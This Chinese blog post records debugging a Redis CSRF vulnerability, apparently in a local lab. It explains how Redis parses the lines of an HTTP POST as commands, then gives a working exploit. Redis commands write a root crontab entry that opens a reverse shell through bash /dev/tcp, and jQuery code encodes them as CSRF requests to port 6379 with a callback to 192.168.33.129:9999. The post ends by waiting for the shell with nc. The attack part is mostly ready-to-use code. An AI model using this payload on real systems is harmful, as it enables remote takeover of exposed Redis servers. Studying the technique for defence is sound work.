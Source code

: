 ```yaml
---
layout: post
title: Redis CSRF漏洞调试记录
description: "redis csrf"
category: scanner
tags: [scanner]
imagefeature: http://7xwdx7.com1.z0.glb.clouddn.com/5551e1cabd3bb.jpg
comments: true
share: true
---
```


# Redis CSRF漏洞调试记录

### 背景
过完年开工，就爆出了redis的CSRF漏洞。前有通过SSRF构造攻击报文执行redis命令，现在又出客户端请求伪造，redis未授权访问真是后患无穷。作为拥有大内网的“有钱人”们，还是做好网段隔离和访问控制，彻底消除隐患吧。

### 攻击原理
通过阅读
[ Whatsinmyredis作者的github项目](https://github.com/dxa4481/whatsinmyredis)
发现攻击方式为构造POST请求提交至Redis监听端口6379。在Redis对HTTP报文的处理过程中，每次出现%0d%0a换行，就认为是一条命令进行解析，同时在执行无意义的错误命令后，不会主动关闭tcp连接，而是继续执行下一条命令。因此HTTP报文的Header不会影响到POST正文的解析执行，从而形成了CSRF利用。

但是根据作者项目中js脚本的payload，发现无法在实际环境中执行，究其根本原因，还在于空格字符的干扰。虽然作者提供的示例无法直接拿来使用，不过还是暗中给出了解决该问题的链接地址：
`http://www.agarri.fr/kom/archives/2014/09/11/trying_to_hack_redis_via_http_requests/index.html`

这里不得不膜拜一下，人家早在2014年就开始玩HTTP报文攻击redis服务了。文章里提到了构造满足Redis Protocol格式的命令来避免空格的干扰，还提到了读取系统文件内容等利用方式。

通过将原始payload进行编码构造，终于实现了CSRF的任意redis命令执行。

### 攻击利用

在本地搭建的测试环境中，我们尝试利用Redis CSRF写入cron配置脚本，从而获取目标主机的反弹shell。从redis原始操作命令来看，需要4步程序：

1. 设置路径:

{% highlight %}
config set dir /var/spool/cron/
{% endhighlight %}

2. 设置文件名：

{% highlight %}
 config set dbfilename root
{% endhighlight %}

3. 将cron脚本写入key:

{% highlight %}
set wow "\n\n\n* * * * * bash -i >& /dev/tcp/YOUR_IP/YOUR_PORT 0>&1\n\n\n"
{% endhighlight %}

4. 利用save命令写入系统目录:

{% highlight %}
SAVE
{% endhighlight %}

将这些命令编码，并构造成CSRF攻击页面，具体代码如下：

{% highlight javascript %}

      alert("向redis发送第一次请求");
	  var payload = "CONFIG SET dir /var/spool/cron/ \r\n\r\n";
      $.post("http://192.168.33.130:6379", payload, function(data){alert(data);});

	  alert("向redis发送第二次请求");
	  var payload = "CONFIG SET dbfilename root \r\n\r\n";
      $.post("http://192.168.33.130:6379", payload, function(data){alert(data);});

      alert("向redis发送第三次请求");
	  payload = "*3\r\n$3\r\nSET\r\n$4\r\ntest\r\n$62\r\n\n\n\n*/1 * * * * bash -i >& /dev/tcp/192.168.33.129/9999 0>&1\n\n\n\r\n\r\n";
      $.post("http://192.168.33.130:6379", payload, function(data){alert(data);});


	  alert("向redis发送第四次请求");
	  payload = "SAVE\r\n\r\n";
      $.post("http://192.168.33.130:6379", payload, function(data){alert(data);});

{% endhighlight %}

### 攻击效果

我们可以开启redis的monitor模式来查看攻击效果，
当我们访问CSRF页面时，可以看到这些命令在redis中被顺利执行了。
![redis执行记录](http://7xwdx7.com1.z0.glb.clouddn.com/redis-monitor.png)

同时，我们可以通过crontab -l查看目标主机，确认cron脚本已经被顺利写入文件系统。
![crontab状态](http://7xwdx7.com1.z0.glb.clouddn.com/crontab-list.png)

最后，就安安静静的开着nc等主机上线吧。
